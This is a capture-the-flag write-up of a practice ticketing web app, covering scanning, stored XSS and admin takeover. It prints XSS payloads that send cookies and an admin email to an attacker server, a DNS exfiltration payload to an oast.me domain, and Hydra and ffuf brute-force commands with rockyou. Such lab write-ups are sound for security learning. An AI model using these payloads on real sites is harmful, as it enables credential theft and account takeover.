## Network Scan

```bash
nmap -sC -A -Pn [target_ip]
```

I ran a scan and discovered port 80(http) and 22(ssh) open.



On the webpage we see that it's a panel for managing tickets



## Directory Enumeration

```bash
gobuster dir -u http://[target_ip]/ -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,sh,cgg
```

The directory enumeration by excluding code 302 and 404 rendered two paths:

- /login
- /register
  On the register page, I created a new user and tried to create tickets in test purposes



Since there is a message box, I'll test it for XSS vulnerability

Based on my researches on the internet, I found a payload for testing XSS:

```script
</textarea><script>alert(1)</script>
```

Like you can see it, this one pop up an alert which confirm the XSS vulnerability.



## Cookie/Session leak

**1. Listen in on the attacking side**

```bash
python3 -m http.server 8000
```

**2. Inject the exfiltration payload**

```html
</textarea><script>fetch('http://[attacker_ip]:8000/steal?cookie='+document.cookie)</script>
```

**3. Wait for the ticket to be reviewed by the admin** (often automatic in these rooms, a bot/simulated admin checks tickets at regular intervals)

**4. Check your Python server logs**

You should see a request arriving with the admin session cookie in the URL, something like:

```
GET /steal?cookie=session=eyJ1c2VybmFtZSI6ImFkbWluIn0...
```

**5. Once the cookie is retrieved**, replace your own session cookie with this one (via DevTools as you did for Intranet) to access the admin account.

Unfortunately this didn't work because the **httponly** flag was at **true**.

I also tested extracting the email directly to confirm the endpoint reachability before diagnosing HttpOnly

```script
</textarea><script>
var email = document.getElementById('email').innerHTML;
var request = new XMLHttpRequest();
request.open("GET", "http://[attacker_ip]:8000/leak?email=" + encodeURIComponent(email), false);
request.send();
</script>
```



This try was a dead end. Like said upper, the flag **httponly** is set to true that's why a cookie leak is impossible.

## HTTP & DNS Logging tool, official tool unreachable

I tried to access the panel at `http://10.10.10.100` and got repeated
connection timeouts. I confirmed this wasn't a local network issue:

```bash
dig log.tryhackme.tech
```

This returned `SERVFAIL — No Reachable Authority (At delegation log.tryhackme.tech)`,
confirming the DNS zone for the official logging tool is down server-side,
unrelated to my setup.

**_NB: I found the domain log.tryhackme.tech on a writeup found via google_**

## Pivoting to Interactsh (self-hosted OOB tool)

Since direct HTTP callbacks to my own server only ever logged my own requests
(the admin's outbound HTTP traffic appears to be blocked by the room's
firewall, consistent with the room's hint), and cookie theft was blocked by
`HttpOnly`, I needed a way to capture **DNS** interactions instead. DNS
resolution isn't blocked by the firewall.

```bash
wget https://github.com/projectdiscovery/interactsh/releases/download/v1.3.1/interactsh-client_1.3.1_linux_amd64.zip
unzip interactsh-client_1.3.1_linux_amd64.zip
chmod +x interactsh-client
sudo mv interactsh-client /usr/local/bin/
interactsh-client
```



This generated a unique listening domain: `d9gls0o3t4ghho2mh2mgkmo4jzreod7cj.oast.me`

## DNS Exfiltration Payload

Since `@` and `.` are invalid in DNS subdomains, I replaced them with
placeholder strings before forcing a DNS lookup via `document.location`:

```html
</textarea>
<script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "aaa");
email = email.replace(".", "ooo");
document.location = "http://" + email + ".d9gls0o3t4ghho2mh2mgkmo4jzreod7cj.oast.me";
</script>
<textarea>
```

## Result

After submitting the ticket, a DNS interaction arrived from a different
source IP and timestamp than my own test traffic:



[adminaccountaaaitsupportooothm.d9gls0o3t4ghho2mh2mgkmo4jzreod7cj]  
Received DNS interaction (A) from 35.180.1.18 at 2026-07-23 00:20:58

Decoding (`aaa` → `@`, `ooo` → `.`) gives the admin's email:

**`adminaccount@itsupport.thm`**

## Password Brute-Force

### First attempt Hydra (failed)

```bash
hydra -l "adminaccount@itsupport.thm" -P /usr/share/wordlists/rockyou.txt [target_ip] http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V
```

Hydra immediately errored out on every attempt:



Confirmed with a manual `curl` test that the app itself returns a genuine
**HTTP 401** status code even for a normal failed login (not real HTTP Basic
Auth, just how this app responds to bad credentials

```bash
curl -i -X POST http://[target_ip]/login -d "email=adminaccount@itsupport.thm&password=test&Login=Login"
```



HTTP/1.1 401 Unauthorized

<p>Invalid email / password combination</p>

Hydra's automatic detection misreads this 401 as real HTTP authentication and  
refuses to proceed with the form-based attack, a known false positive with  
Hydra against apps that (unusually) return 401 on form login failures.

#### Working approach ffuf

Switched to `ffuf`, which doesn't perform this kind of auto-detection and  
just sends the requests as configured:

```bash
ffuf -w /usr/share/wordlists/rockyou.txt:FUZZ   \
  -X POST \
  -d "email=adminaccount@itsupport.thm&password=FUZZ&Login=Login" \
  -u http://[target_ip]/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fr "Invalid email / password combination" \
  -o ffuf_results.json \
  -of json

```

`-fr` filters out (hides) any response containing the failure message, so  
only successful logins remain visible in the output.

The result was found at 40 position :



**Password: REDACTED**

#### Lessons Learned

Not every "web form" login behaves the way brute-force tools expect by  
default, some apps return non-200 status codes (401, 403, etc.) on failure  
instead of the more common 200-with-error-message pattern. When a tool's  
auto-detection misfires, dropping down to a manual `curl` test to see the  
raw response is the fastest way to confirm what's actually happening, and  
switching tools (Hydra --> ffuf) can sidestep the issue entirely.

After that I connect the admin user and found the flag on ticket 1



**THM{REDACTED}**
